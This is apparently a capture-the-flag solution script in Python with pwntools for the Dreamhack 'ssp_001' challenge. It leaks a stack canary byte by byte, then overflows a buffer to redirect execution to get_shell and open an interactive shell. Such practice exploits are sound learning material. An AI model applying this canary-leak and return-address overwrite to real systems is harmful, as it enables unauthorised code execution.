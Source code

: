 ```py
from pwn import *

context = "i386"
p = remote("host3.dreamhack.games", 19006)

elf = ELF("./ssp_001")
get_shell = elf.symbols['get_shell']

# get_shell = b'\xb9\x86\x04\x08'

canary = b'\x00'

p.sendline(b'P')
p.sendline(b'129')
p.recvuntil(b'is : ')
canary += p32(int(p.recv(2), 16))[:1]
# canary += p8(int(p.recv(2),16))

p.sendline(b'P')
p.sendline(b'130')
p.recvuntil(b'is : ')
canary += p32(int(p.recv(2), 16))[:1]

p.sendline(b'P')
p.sendline(b'131')
p.recvuntil(b'is : ')
canary += p32(int(p.recv(2), 16))[:1]

p.sendline(b'E')
p.sendline(b'80')

payload = b'a'*64 + canary + b'a'*8 + p32(get_shell)
p.send(payload)

p.interactive()
```
